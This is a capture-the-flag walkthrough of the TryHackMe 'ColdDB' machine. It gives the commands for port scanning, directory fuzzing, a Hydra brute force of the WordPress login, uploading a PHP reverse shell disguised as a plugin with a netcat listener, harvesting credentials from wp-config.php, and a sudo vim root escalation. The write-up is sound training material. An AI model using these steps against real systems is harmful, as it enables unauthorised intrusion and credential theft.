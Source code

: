 # TryHackMe - ColdDB (Easy)

Detailed walkthrough of the "ColdDB" machine on TryHackMe.  
Objective: Gain root access by moving from web enumeration to privilege escalation via Vim.

---

## Overview

This machine simulates a typical web-to-root scenario. The goal is to exploit a vulnerable WordPress site to gain a foothold, extract credentials, access the system via SSH, and escalate privileges using a misconfigured `vim` binary.

---

 1. Port Scanning

Initial full TCP port scan:


nmap -p- -T5 10.10.158.121

Open ports found:

    80 (HTTP)

    4512 (SSH on a non-standard port)
---

Service/version detection:

nmap -p 80,4512 -sV -A 10.10.158.121 -o nmap.txt

---

2. Web Enumeration

Nothing obvious on the homepage. Using Gobuster:

gobuster dir -u http://10.10.158.121 -w /usr/share/wordlists/rockyou.txt

Discovered /Hidden, which contains a message:

    C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. – Philip

This reveals a potential valid username: C0ldd.

---

3. WordPress Login Brute Force

I first tested common credentials like admin:admin and admin:password — no success.

Trying the username C0ldd manually returned a WordPress error indicating that the password is incorrect, meaning the username is valid.

Brute-force attack with Hydra:

hydra -l C0ldd -P /usr/share/wordlists/rockyou.txt 10.10.158.121 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Incorrect" -V

Login successful. Access to the WordPress admin panel is now available at /wp-admin.

---

4. Uploading a Reverse Shell

From the WordPress admin panel, I uploaded a Pentestmonkey PHP reverse shell, disguised as a plugin.

However, it didn't appear in the usual plugins folder. After some digging, I found it uploaded here:

/wp-content/uploads/2025/05/shell.php

I started a Netcat listener:

nc -lvnp 4444

Triggering the URL launched the reverse shell successfully.

---

5. SSH Access & User Flag

From the initial shell, I tried reading /home/c0ldd/user.txt but lacked permission.

I searched the WordPress config file:

cat /var/www/html/wp-config.php

It contained database credentials — which also worked via SSH:

ssh -p 4512 c0ldd@10.10.158.121

After connecting, I was able to read the user flag:

cat /home/c0ldd/user.txt

It was Base64-encoded:

echo "RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==" | base64 --decode

→ Felicidades, primer nivel conseguido!

---

6.  Privilege Escalation

Checked sudo permissions:

sudo -l

Found that vim could be executed as root. Based on GTFOBins:

sudo vim -c ':!/bin/sh'

Confirmed root access with:

whoami
# root

---

7. Root Flag

Read the root flag:

cat /root/root.txt

It was also Base64-encoded:

echo "wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=" | base64 --decode

→ ¡Felicidades, máquina completada!

 ---
 
  Skills Demonstrated

   - Full-range port scanning with Nmap

   - Web directory fuzzing (Gobuster)

   - WordPress user enumeration & brute-force

   - Reverse shell upload via admin panel

   - Credential harvesting from wp-config.php

   - SSH login on custom port

   - Privilege escalation via sudo + GTFOBins

   - Base64 decoding of flags


